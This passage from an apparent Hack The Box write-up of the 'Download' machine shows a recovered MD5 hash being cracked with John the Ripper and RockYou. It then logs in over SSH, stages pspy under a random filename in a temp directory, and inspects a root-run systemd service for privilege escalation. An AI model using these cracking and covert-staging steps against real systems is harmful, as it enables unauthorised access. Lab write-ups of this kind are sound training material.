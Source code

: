 ```zsh
    done
  done
  echo "$hash"
}

download_fuzz_password_field "WESLEY"
```
{:file="bryan@redteam ➤ zsh" .nolineno}

We successfully recovered the hash for Wesley's account then cracked it using [John the Ripper](https://github.com/openwall/john) with the standard [RockYou](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Leaked-Databases/rockyou.txt.tar.gz) password list.

```zsh
# Recover Wesley's password
echo 'WESLEY:f88976c10af66915918945b9679b2bd3' >> md5.lst # Save hash
john --wordlist="~/wordlist/rockyou.txt" --format="Raw-MD5" ./md5.lst # Crack hashes
john --show --format="Raw-MD5" ./md5.lst # Display cracked hashes
```
{:file="bryan@redteam ➤ zsh" .nolineno}
```text
WESLEY:dunkindonuts

1 password hash cracked, 0 left
```
{:file="STDOUT" .nolineno}

With this password, we were able to establish an SSH session as the OS user _wesley_.


## Privilege Escalation

### Process Snooping

We first uploaded and executed the latest [PSpy release](https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64) to snoop on processes started by other users.

```zsh
# Copy static PSpy executable to the target
scp pspy64 wesley@$rhost:~/nEcdd7
```
{:file="bryan@redteam ➤ zsh" .nolineno}
```bash
# Run PSpy for five minutes
cd `mktemp -d /tmp/05dJPb.XXXXXX` && mv ~/nEcdd7 . # Move pspy
chmod 700 nEcdd7 # Make PSspy executable + private
timeout 5m ./nEcdd7 -i 5 --ppid | tee pspy.log # Run pspy, display PPID, 5ms interval
```
{:file="wesley@download (SSH) ➤ bash" .nolineno}

We noticed a set of processes that ran as root from a shell script named `manage-db`{:.filepath}. One process queries a custom systemd service called "download-site". We decided to read the file associated with this service at `/etc/systemd/system/download-site.service`{:.filepath}

```bash
# Investigate "download-site" service
service "download-site" status # Locate the service file
more /etc/systemd/system/download-site.service # Read the service file
```
{:file="wesley@download (SSH) ➤ bash" .nolineno}
```
[Unit]
Description=Download.HTB Web Application
After=network.target

[Service]
Type=simple
User=www-data
```